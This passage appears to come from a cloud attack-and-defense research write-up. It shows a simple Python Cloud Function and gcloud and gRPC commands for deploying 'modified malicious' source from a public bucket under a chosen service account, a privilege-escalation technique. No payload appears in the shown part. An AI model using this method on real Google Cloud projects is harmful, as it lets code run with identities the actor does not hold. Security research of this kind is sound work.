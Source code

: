 ```python
        if request.args and 'message' in request.args:
            return request.args.get('message')
        elif request_json and 'message' in request_json:
            return request_json['message']
        else:
            return f'Hello World!'
```

```python
#filename: requirements.txt
requests
```

We will keep the non malicious code the same.

```python
#Non-Malicious Source Code
#filename: main.py
import requests

def anirban(request):
    request_json = request.get_json()
    if request.args and 'message' in request.args:
        return request.args.get('message')
    elif request_json and 'message' in request_json:
        return request_json['message']
    else:
        return f'Hello World!'
```

```python
#filename: requirements.txt
requests
```
Once again, deploy the Cloud Function but this time with the above modified "Malicious Code". Pack the Modified Malicious Source Code (main.py) and requirements.txt into a zip file and upload it to a different Cloud Storage Account you have full access to and make it public. Copy the gsutil link of the modified malicious zip file.

Once you have the gsutil URI of the modified malicious zip file go ahead Deploy a Function via any method (gCloud or Cloud Function API)

Command to [deploy Cloud Function via gCloud](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-gcloud):
```powershell
gcloud functions deploy <function-name> --runtime=python38 --source=<gs-link-of-modified-malicious-sourcecode> --entry-point=<function-entrypoint> --trigger-http --service-account=<service-account-email>
```

Command to [deploy Cloud Function via Cloud Function API (gRPC)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-grpc):
```powershell
py.exe .\main.py --project-id <project-id> --location <region> --function-name <function-name> --gsutil-uri <gs-link-of-modified-malicious-sourcecode> --function-entry-point <entry-point> --service-account <sa-account> --deploy
```
